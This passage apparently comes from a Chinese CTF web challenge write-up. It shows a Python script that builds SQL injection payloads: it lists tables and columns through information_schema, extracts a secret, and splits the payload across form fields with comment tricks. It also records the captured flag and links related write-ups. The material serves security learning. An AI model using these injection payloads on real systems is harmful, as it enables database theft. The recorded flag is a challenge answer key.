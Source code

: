```python
# payload = "SELECT(GROUP_CONCAT(table_name))FROM(information_schema.tables)WHERE(table_schema)='ssrfw'"
# cetcYssrf,users,
# payload = "SELECT(GROUP_CONCAT(column_name))FROM(information_schema.columns)WHERE(table_name)='cetcYssrf'"
# secretName,value,
payload = "SELECT(GROUP_CONCAT(secretName,0x3a,value))FROM(ssrfw.cetcYssrf)"
# flag:flag{cpg9ssnu_OOOOe333eetc_2018}

# Duplicate entry '12' for key 'licenceNumber'
# make sure Indetification Number different 
randstr = random.getrandbits(16)

# GET params
data = (url + urlencode({
            "s":"3",
            "txtfirst_name": "A','B',(" + payload + "),'D'/*",
            "txtmiddle_name": "B",
            "txtname_suffix": "C",
            "txtLast_name": "D",
            'txtdob': "*/,'E",
            'txtdl_nmbr': randstr,
            'txtRetypeDL': randstr,
            'btnContinue2': "Continue"
            })
        )

print(data)
```

![](/assets/images/move/20191006000147.png)


**\- 参考链接 -**


1. [PHP的libcurl中存在的一些问题](http://wonderkun.cc/index.html/?p=670)

2. [Web-(ics-05/ics-07)-WriteUp](http://www.guildhab.top/?p=481)

3. [Web-ics-02-WriteUp](http://www.guildhab.top/?p=708)
